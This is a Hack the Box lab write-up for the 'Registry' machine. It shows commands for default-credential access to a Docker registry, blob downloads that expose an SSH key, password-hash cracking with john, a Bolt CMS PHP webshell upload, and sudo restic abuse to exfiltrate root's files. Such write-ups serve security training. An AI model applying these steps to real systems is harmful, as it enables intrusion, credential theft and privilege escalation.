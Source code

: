 +++
author = "Nick"
categories = ["hack the box", "Linux", "Hard", "docker", "bolt cms", "reverse shell", "john", "port forwarding", "restic"]
date = 2020-04-04T10:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2020/04/registry.png"
slug = "hack-the-box-registry"
summary = "Welcome back! Today we are going to be doing the Hack the Box machine - Registry. This machine is listed as a Hard linux box. Let's jump in!"
tags = ["hack the box", "Linux", "Hard", "docker", "bolt cms", "reverse shell", "john", "port forwarding", "restic"]
title = "Hack the Box - Registry"

+++


Welcome back! Today we are going to be doing the Hack the Box machine - Registry. This machine is listed as a Hard linux box. Let's jump in!

As usual, we kick it off with our `nmap`: `nmap -sC -sV -p- -oA allscan 10.10.10.159`

Here are the results:
```
Nmap scan report for 10.10.10.159
Host is up (0.12s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 72:d4:8d:da:ff:9b:94:2a:ee:55:0c:04:30:71:88:93 (RSA)
|   256 c7:40:d0:0e:e4:97:4a:4f:f9:fb:b2:0b:33:99:48:6d (ECDSA)
|_  256 78:34:80:14:a1:3d:56:12:b4:0a:98:1f:e6:b4:e8:93 (ED25519)
80/tcp  open  http     nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Welcome to nginx!
443/tcp open  ssl/http nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Welcome to nginx!
| ssl-cert: Subject: commonName=docker.registry.htb
| Not valid before: 2019-05-06T21:14:35
|_Not valid after:  2029-05-03T21:14:35
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have quite a list of results. We're going to want to add `registry.htb` as well as `docker.registry.htb` to our host file. When we browse to that location, we don't have anything being shown. We'll enumerate a bit with `gobuster`.

Command:
`gobuster dir -u registry.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50`



We immediately see a directory called `v2`. Let's head over to that and see what's there. We are immediately prompted for credentials. We try some standard credentials like admin / admin and we get in. 

Now that we've authenticated, we are given what seems to be an API endpoint. Sure enough, it is the docker API endpoint. There is some documentation for that [here](https://docs.docker.com/registry/spec/api/).

According to the docks we can see available repositories by send a `GET` to `/v2/_catalog`.

{{< figure src="__GHOST_URL__/content/images/2020/04/image-19.png" caption="From the Docker documentation" >}}

So, let's `curl` it and see what comes back (Note you can just browse to this URL as well).

Command:
`curl --user "admin:admin" docker.registry.htb/v2/_catalog`

{{< figure src="__GHOST_URL__/content/images/2020/04/image-20.png" >}}

We see one repo named `bolt-image`. Cool, now that we have an image being used, let's get it's manifest. For those unaware of Docker and how it functions, a manifest is just like it sounds. A listing of docker related data about the image being used. You can read more on the Docker manifest [here](https://docs.docker.com/engine/reference/commandline/manifest/).

Command:
`curl --user "admin:admin" docker.registry.htb/v2/bolt-image/manifests/latest > bolt.manifest`

We now have a bunch of data about the docker image. Now we see a large listing of `blogSum`s. These are essentially zipped digests. So we'll download each of them, give them the `.tar.gz` extension and then unzip them to see what is inside. Here's a quick .sh I put together:
```bash
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b -O 1.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:3f12770883a63c833eab7652242d55a95aea6e2ecd09e21c29d7d7b354f3d4ee -O 2.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:c71b0b975ab8204bb66f2b659fa3d568f2d164a620159fc9f9f185d958c352a7 -O 3.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791 -O 4.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4 -O 5.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:f5029279ec1223b70f2cbb2682ab360e1837a2ea59a8d7ff64b38e9eab5fb8c0 -O 6.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:d9af21273955749bb8250c7a883fcce21647b54f5a685d237bc6b920a2ebad1a -O 7.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:8882c27f669ef315fc231f272965cd5ee8507c0f376855d6f9c012aae0224797 -O 8.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:f476d66f540886e2bb4d9c8cc8c0f8915bca7d387e536957796ea6c2f8e7dfff -O 9.tar.gz
```

We finally find one with some data in!

{{< figure src="__GHOST_URL__/content/images/2020/04/image-21.png" >}}

Inside we have a shell file with the password to an `SSH` key.

{{< figure src="__GHOST_URL__/content/images/2020/04/image-22.png" >}}

Inside another, we have the key itself.

{{< figure src="__GHOST_URL__/content/images/2020/04/image-23.png" >}}

Inside the `config` file we also get a username to connect with.

{{< figure src="__GHOST_URL__/content/images/2020/04/image-24.png" >}}

Now we can `SSH` into the machine and with some luck snag our user key!

Command:
`ssh -i id_rsa bolt@10.10.10.159`

{{< figure src="__GHOST_URL__/content/images/2020/04/image-26.png" >}}

Awesome, we have our `user.txt` flag. Let's start enumerating and looking for a path to root!

We know from the `gobuster` enumeration that there is a directory called /bolt/ (as well as from our blob downloads). When we browse ot it we are met with a basic install of the [Bolt CMS](https://bolt.cm/). So we manually enumerate the site a bit but find nothing too useful.

We head back to our `SSH` shell and look around the bolt directory. We find a file called `bolt.db` in the bolt app location.

{{< figure src="__GHOST_URL__/content/images/2020/04/image-27.png" >}}

If we `cat` this file we see this within it.

{{< figure src="__GHOST_URL__/content/images/2020/04/image-29.png" >}}

That is indeed the hash for the admin account. We'll save it to a file called `admin.hash` and send it to `john` to crack.

Command:
`john --wordlist=/usr/share/wordlist/rockyou.txt admin.hash`

{{< figure src="__GHOST_URL__/content/images/2020/04/adminhash_registry.gif" >}}

We get a password of `strawberry` back. So now that we have an admin password to the application, let's log in: `http://registry.htb/bolt/bolt/login`

Once we're in we look around internally as well as some googling for bolt cms exploits. We find a few but none seem to work. Some more [research shows](https://fgsec.net/from-csrf-to-rce-bolt-cms/) that we can append file types to our allowed uploads. We can append the `.php` extension and give ourselves a webshell.

So we head over to Configuration > Main Configuration and look for the `accepted_file_types` line.

{{< figure src="__GHOST_URL__/content/images/2020/04/image-30.png" >}}

Now we add `.php` to the list. Then we head over to File Management tab and upload our own shell. This all needs to be done quickly. It seems that the setting get reset every 2 mins or so?

So we upload our shell and navigate to it and execute our command for a netcat listener.

We then connect to the target for our shell.

{{< figure src="__GHOST_URL__/content/images/2020/04/image-31.png" >}}

Once we're in we start some manual enumeration and get `linpeas` onto the system. Our first check of our permission shows that we can run `restic` as sudo.

{{< figure src="__GHOST_URL__/content/images/2020/04/image-32.png" >}}

I don't even know what the software is, so we do more googling. Turns out it's a backup application. Reading through the documentation it seems the calls are all local, meaning we'll need to forward our ports at some point. First let's install the application. The application is actually in the standard repo, so we can use `apt install restic` and be good.

After it's installed we need to initialize the repo:
`restic init -r .reg`

Next, we need to start the server. We can download the precompiled binaries [here](https://github.com/restic/rest-server/releases):
`rest-server --path .reg`

{{< figure src="__GHOST_URL__/content/images/2020/04/image-33.png" >}}

Now that those parts are setup. We need to forward our ports in order to pass our commands.

Command:
`ssh -i ~/HTB/Registry/root/.ssh/id_rsa 8000:localhost:8000 bolt@10.10.10.159`

{{< figure src="__GHOST_URL__/content/images/2020/04/image-34.png" >}}

Now we can issue the sync command from the `www-data` shell:
`sudo /usr/bin/restic backup -r rest:http://localhost:8000 /root`

{{< figure src="__GHOST_URL__/content/images/2020/04/image-35.png" >}}

We will now see our `.reg` location filled with data from the backup.

{{< figure src="__GHOST_URL__/content/images/2020/04/image-36.png" >}}

This isn't exactly what we want. Although I'm sure we could dig through the snapshot file, we want to sync the `root.txt` flag. So we can issue the same basic command as above but to specify the `root.txt` file:

Command:
`sudo /usr/bin/restic backup -r rest:http://127.0.0.1:8000/ /root/root.txt`

{{< figure src="__GHOST_URL__/content/images/2020/04/image-37.png" >}}

Now that we've copied that file back, we need to decrypt it using the `restore` function of `restic`. We need to go back a level because this will not work from within the repo.

Command:
`restic -r .reg restore latest --target restored`

{{< figure src="__GHOST_URL__/content/images/2020/04/rootregistry.gif" >}}

There we have it, our `root.txt` flag! Also, I should note that restoring the snapshot file was not complicated and did it the second time through the box for this blog. Here are the steps.

We navigate to our snapshot directory and issue the following:

`restic restore $SNAPSHOTID --target /root/Desktop -r /root/Desktop/$directory`

The items with a `$` are variables you'd set because the snapshot ID's and locations will be different for each run.

Hopefully something was learned during this machine. If you found this write-up helpful, consider sending some respect my way: [My HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).



